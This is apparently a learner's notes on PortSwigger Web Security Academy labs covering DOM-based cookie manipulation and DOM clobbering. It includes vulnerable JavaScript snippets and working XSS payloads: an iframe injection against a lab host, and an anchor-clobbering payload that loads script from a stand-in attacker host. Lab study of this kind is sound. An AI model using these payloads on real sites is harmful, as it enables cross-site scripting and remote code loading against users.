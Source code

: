 hint:
document.cookie = 'cookieName='+location.hash.slice(1);

serach keyword cookie to find cookie related vulnarbilties - find in page (GET /product?productId=3 HTTP/1.1)
```htm
<script>
    document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```

this script creates a link to our last seen product
```htm
<script>
    document.cookie = 'lastViewedProduct=' + location.hash.slice(1) + '; SameSite=None; Secure'
</script>
```

portswigger solution:
```htm
<iframe src="https://your-lab-id.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://your-lab-id.web-security-academy.net';window.x=1;">
```
payload:
```htm
<iframe src="https://0a900063030848c7c03f08790046001e.web-security-academy.net/product?productId=3&'><script>print()</script>" onload="if(!window.x)this.src='https://0a900063030848c7c03f08790046001e.web-security-academy.net';window.x=1">
```



# DOMed!



# ***1. Lab: Lab: Exploiting DOM clobbering to enable XSS***
[to the Lab](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering)

This lab contains a DOM-clobbering vulnerability. The comment functionality allows "safe" HTML. To solve this lab, construct an HTML injection that clobbers a variable and uses XSS to call the alert() function. 

**material:**
vulen code:
```html
<script>
    window.onload = function(){
        let someObject = window.someObject || {};
        let script = document.createElement('script');
        script.src = someObject.url;
        document.body.appendChild(script);
    };
</script>
```
payload:
```html
<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>
```
